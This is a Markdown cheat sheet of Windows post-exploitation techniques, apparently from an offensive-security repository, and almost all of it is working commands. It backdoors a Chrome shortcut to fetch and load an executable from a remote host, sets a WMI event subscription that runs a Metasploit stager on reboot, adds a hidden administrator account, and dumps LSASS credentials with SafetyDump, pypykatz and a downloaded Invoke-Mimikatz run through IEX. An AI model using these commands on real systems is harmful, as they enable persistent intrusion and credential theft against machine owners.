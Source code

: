 # Persistence

## *LNK* backdoor
Backdoor any commonly used shortcut by changing the default target. For example with *Google Chrome*, change the shortcut from:
```
C:\Program Files\Google\Chrome\Application\chrome.exe
```

To:
```powershell
powershell.exe -nop -w hidden -c "[System.Diagnostics.Process]::Start('C:\Program Files\Google\Chrome\Application\chrome.exe');[System.Reflection.Assembly]::Load((iwr 'http://10.10.10.50/i.exe').Content)
```

***

## *WMI* subscriptions (machine reboot)
> Note: this method requires elevated privileges.

```powershell
# Filter arguments (what event(s) we want to trigger on)
$FilterArgs = @{name='BIT-WMI-Demo1';
                EventNameSpace='root\CimV2';
                QueryLanguage="WQL";
                Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System' AND TargetInstance.SystemUpTime >= 240 AND TargetInstance.SystemUpTime < 325"};

# Create the filter
$Filter=New-CimInstance -Namespace root/subscription -ClassName __EventFilter -Property $FilterArgs

# Setup a malicious consumer for the event
$ConsumerArgs = @{name='BIT-WMI-Demo1';
                CommandLineTemplate='C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -nop -e <metasploit stager>';}
$Consumer=New-CimInstance -Namespace root/subscription -ClassName CommandLineEventConsumer -Property $ConsumerArgs
 
# Create the backdoor
$FilterToConsumerArgs = @{
  Filter = [Ref] $Filter;
  Consumer = [Ref] $Consumer;
}
$FilterToConsumerBinding = New-CimInstance -Namespace root/subscription -ClassName __FilterToConsumerBinding -Property $FilterToConsumerArgs
```
> Note: taken from `https://pentestlab.blog/2020/01/21/persistence-wmi-event-subscription/`.

***

## Backdoor user
> Note: this method requires elevated privileges.

```
net user /add hacker 1234
net localgroup administrators hacker /add
```

***

## Hash dumping
> Note: this method requires elevated privileges.

### SafetyDump
Dump hashes:
```powershell
[System.Reflection.Assembly]::Load([Convert]::FromBase64String($b64_safetydump))
[SafetyDump.Program]::Main("<lsass_pid>")
```

Parse dump:
```
pypykatz lsa minidump <dump_file>
```

### Mimikatz - reflective PE injection
```
(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/g4uss47/Invoke-Mimikatz/refs/heads/master/Invoke-Mimikatz.ps1') | IEX
Invoke-Mimikatz -DumpCreds
```
